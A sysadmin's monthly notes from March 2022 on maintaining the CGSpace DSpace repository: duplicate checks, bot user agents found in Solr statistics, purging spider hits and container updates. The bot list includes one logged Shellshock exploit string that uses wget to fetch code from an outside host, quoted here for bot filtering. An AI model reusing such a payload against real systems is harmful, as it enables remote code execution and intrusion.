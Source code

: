 ```yaml
---
title: "March, 2022"
date: 2022-03-01T16:46:54+03:00
author: "Alan Orth"
categories: ["Notes"]
---
```


## 2022-03-01

- Send Gaia the last batch of potential duplicates for items 701 to 980:

```console
$ csvcut -c id,dc.title,dcterms.issued,dcterms.type ~/Downloads/2022-03-01-CGSpace-TAC-ICW-batch4-701-980.csv > /tmp/tac4.csv
$ ./ilri/check-duplicates.py -i /tmp/tac4.csv -db dspace -u dspace -p 'fuuu' -o /tmp/2022-03-01-tac-batch4-701-980.csv
$ csvcut -c id,filename ~/Downloads/2022-03-01-CGSpace-TAC-ICW-batch4-701-980.csv > /tmp/tac4-filenames.csv
$ csvjoin -c id /tmp/2022-03-01-tac-batch4-701-980.csv /tmp/tac4-filenames.csv > /tmp/2022-03-01-tac-batch4-701-980-filenames.csv
```

<!--more-->

## 2022-03-04

- Looking over the CGSpace Solr statistics from 2022-02
  - I see a few new bots, though once I expanded my search for user agents with "www" in the name I found so many more!
  - Here are some of the more prevalent or weird ones:
    - axios/0.21.1
    - Mozilla/5.0 (compatible; Faveeo/1.0; +http://www.faveeo.com)
    - Nutraspace/Nutch-1.2 (www.nutraspace.com)
    - Mozilla/5.0 Moreover/5.1 (+http://www.moreover.com; webmaster@moreover.com)
    - Mozilla/5.0 (compatible; Exploratodo/1.0; +http://www.exploratodo.com
    - Mozilla/5.0 (compatible; GroupHigh/1.0; +http://www.grouphigh.com/)
    - Crowsnest/0.5 (+http://www.crowsnest.tv/)
    - Mozilla/5.0/Firefox/42.0 - nbertaupete95(at)gmail.com
    - metha/0.2.27
    - ZaloPC-win32-24v454
    - Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:x.x.x) Gecko/20041107 Firefox/x.x
    - ZoteroTranslationServer/WMF (mailto:noc@wikimedia.org)
    - FullStoryBot/1.0 (+https://www.fullstory.com)
    - Link Validity Check From: http://www.usgs.gov
    - OSPScraper (+https://www.opensyllabusproject.org)
    - () { :;}; /bin/bash -c \"wget -O /tmp/bbb www.redel.net.br/1.php?id=3137382e37392e3138372e313832\"
  - I submitted [a pull request to COUNTER-Robots](https://github.com/atmire/COUNTER-Robots/pull/52) with some of these
- I purged a bunch of hits from the stats using the `check-spider-hits.sh` script:

```console
]$ ./ilri/check-spider-hits.sh -f dspace/config/spiders/agents/ilri -p
Purging 6 hits from scalaj-http in statistics
Purging 5 hits from lua-resty-http in statistics
Purging 9 hits from AHC in statistics
Purging 7 hits from acebookexternalhit in statistics
Purging 1011 hits from axios\/[0-9] in statistics
Purging 2216 hits from Faveeo\/[0-9] in statistics
Purging 1164 hits from Moreover\/[0-9] in statistics
Purging 740 hits from Exploratodo\/[0-9] in statistics
Purging 585 hits from GroupHigh\/[0-9] in statistics
Purging 438 hits from Crowsnest\/[0-9] in statistics
Purging 1326 hits from nbertaupete95 in statistics
Purging 182 hits from metha\/[0-9] in statistics
Purging 68 hits from ZaloPC-win32-24v454 in statistics
Purging 1644 hits from Firefox\/x\.x in statistics
Purging 678 hits from ZoteroTranslationServer in statistics
Purging 27 hits from FullStoryBot in statistics
Purging 26 hits from Link Validity Check in statistics
Purging 26 hits from OSPScraper in statistics
Purging 1 hits from 3137382e37392e3138372e313832 in statistics
Purging 2755 hits from Nutch-[0-9] in statistics

Total number of bot hits purged: 12914
```

- I added a few from that list to the local overrides in our DSpace while I wait for feedback from the COUNTER-Robots project

## 2022-03-05

- Start AReS harvest

## 2022-03-10

- A few days ago Gaia sent me her notes on the fourth batch of TAC/ICW documents (items 701–980 in the spreadsheet)
  - I created a filter in LibreOffice and selected the IDs for items with the action "delete", then I created a custom text facet in OpenRefine with this GREL:

```
or(
isNotNull(value.match('707')),
isNotNull(value.match('709')),
isNotNull(value.match('710')),
isNotNull(value.match('711')),
isNotNull(value.match('713')),
isNotNull(value.match('717')),
isNotNull(value.match('718')),
...
isNotNull(value.match('821'))
)
```

- Then I flagged all matching records, exported a CSV to use with SAFBuilder, and imported them on DSpace Test:

```console
$ JAVA_OPTS="-Xmx1024m -Dfile.encoding=UTF-8" dspace import --add --eperson=fuu@ummm.com --source /tmp/SimpleArchiveFormat --mapfile=./2022-03-10-tac-batch4-701to980.map
```

## 2022-03-12

- Update all containers and rebuild OpenRXV on linode20:

```console
$ docker images | grep -v ^REPO | sed 's/ \+/:/g' | cut -d: -f1,2 | xargs -L1 docker pull
$ docker-compose build
```

- Then run all system updates and reboot
- Start a full harvest on AReS

## 2022-03-16

- Meeting with KM/KS group to start talking about the way forward for repositories and web publishing
  - We agreed to form a sub-group of the transition task team to put forward a recommendation for repository and web publishing

<!-- vim: set sw=2 ts=2: -->
